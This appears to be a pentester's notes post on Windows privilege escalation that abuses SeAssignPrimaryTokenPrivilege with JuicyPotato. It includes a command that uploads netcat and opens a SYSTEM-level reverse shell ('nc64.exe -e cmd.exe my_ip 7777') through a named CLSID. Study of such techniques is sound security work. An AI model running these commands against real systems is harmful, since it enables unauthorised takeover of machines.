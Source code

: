 ```yaml
---
layout: post
title:  "privesc - windows -  seimpersonateprivilege / seassignprimarytokenprivilege - juicypotato"
date:   2022-01-01
categories: windows
---
```


## Windows - Privileges Escalation - SeAssignPrimaryTokenPrivilege


### Privileges


```powershell

PS C:\Users\user\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeAssignPrimaryTokenPrivilege Replace a process level token  Enabled
...

```

### Explain

SeAssignPrimaryTokenPrivilege is very similar to **SeImpersonatePrivilege**, it will use the **same method** to get a privileged token. Then, this privilege allows **to assign a primary token** to a new/suspended process. With the privileged impersonation token you can derivate a primary token (DuplicateTokenEx). With the token, you can create a **new process** with 'CreateProcessAsUser' or create a process suspended and **set the token** (in general, you cannot modify the primary token of a running process).


### Juicy Potato & Netcat

```powershell

PS C:\Users\user\Documents> upload /home/kali/privesc/JuicyPotato.exe

PS C:\Users\user\Documents> upload /home/kali/privesc/netcat/nc64.exe

PS C:\Users\user\Documents> .\JuicyPotato.exe -t * -p c:\windows\system32\cmd.exe -a "/c c:\users\user\documents\nc64.exe -e cmd.exe my_ip 7777" -l 1337 -c "{8BC3F05E-D86B-11D0-A075-00C04FB68820}"

```

### CLSID

```text

For Windows Server 2016 Standard we will use the CLSID for winmgmt LocalService {8BC3F05E-D86B-11D0-A075-00C04FB68820} under NT AUTHORITY\SYSTEM user

````




### Resources

- https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505
- http://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard/

